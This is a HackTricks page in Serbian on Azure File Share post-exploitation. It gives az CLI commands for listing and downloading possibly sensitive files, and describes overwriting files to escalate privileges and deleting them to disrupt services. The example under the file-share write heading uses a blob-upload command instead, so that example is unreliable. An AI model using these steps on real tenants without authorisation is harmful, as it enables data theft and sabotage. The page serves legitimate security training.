 # Az - File Share Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

Post eksploatacija deljenja fajlova

Za više informacija o deljenju fajlova pogledajte:

{{#ref}}
../az-services/az-file-shares.md
{{#endref}}

### `Microsoft.Storage/storageAccounts/fileServices/fileshares/files/read`

Principal sa ovom dozvolom će moći da **prikazuje** fajlove unutar deljenja fajlova i **preuzima** fajlove koji mogu sadržati **osetljive informacije**.
```bash
# List files inside an azure file share
az storage file list \
--account-name <name> \
--share-name <share-name> \
--auth-mode login --enable-file-backup-request-intent

# Download an specific file
az storage file download \
--account-name <name> \
--share-name <share-name> \
--path <filename-to-download> \
--dest /path/to/down \
--auth-mode login --enable-file-backup-request-intent
```
### `Microsoft.Storage/storageAccounts/fileServices/fileshares/files/write`, `Microsoft.Storage/storageAccounts/fileServices/writeFileBackupSemantics/action`

Principal sa ovom dozvolom će moći da **piše i prepisuje datoteke u deljenim datotekama**, što bi moglo omogućiti da izazove neku štetu ili čak eskalira privilegije (npr. prepisuje neki kod smešten u deljenoj datoteci):
```bash
az storage blob upload \
--account-name <acc-name> \
--container-name <container-name> \
--file /tmp/up.txt --auth-mode login --overwrite
```
### \*/delete

Ovo bi omogućilo brisanje datoteka unutar deljenog fajl sistema što bi moglo **prekinuti neke usluge** ili učiniti da klijent **izgubi dragocene informacije**.

{{#include ../../../banners/hacktricks-training.md}}
